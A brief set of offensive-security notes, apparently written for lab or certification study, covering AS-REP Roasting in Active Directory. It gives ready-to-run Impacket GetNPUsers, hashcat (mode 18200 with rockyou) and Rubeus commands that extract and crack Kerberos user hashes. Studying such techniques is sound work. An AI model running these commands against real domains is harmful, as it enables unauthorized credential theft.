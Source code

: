 # ASREP Roasting

 AS-REP-Roasting - `impacket-get-NPUsers`; commonly found in real world with single signon accounts that will be logging in and out continuously all day to reduce load on the DC. [[Impacket-Cheatsheet]]
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Output all Kerberos Hash modes  
```
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

[[Rubeus-Cheatsheet]]
```powershell
.\Rubeus.exe asreproast /nowrap
```


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
[THM Room Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)